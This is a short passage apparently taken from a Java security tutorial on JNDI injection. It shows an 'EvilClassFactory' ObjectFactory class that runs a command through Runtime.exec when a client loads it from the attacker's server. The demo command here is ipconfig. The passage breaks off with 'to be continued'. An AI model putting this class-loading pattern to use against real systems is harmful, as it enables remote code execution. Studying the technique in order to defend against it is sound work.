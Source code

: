 ```java
    } 
} 
```
Finally, write a malicious EvilClassFactory class, the goal is to execute the ipconfig command on the client, compile it into a class file and place it in the same directory as AServer: 

```java
public  class  EvilClassFactory  implements  ObjectFactory  { 
    public  Object getObjectInstance (Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment)  throws  Exception  { 
        Runtime.getRuntime().exec( "ipconfig" ); 
        return  null ; 
    } 
} 
```

>> to be continued ...





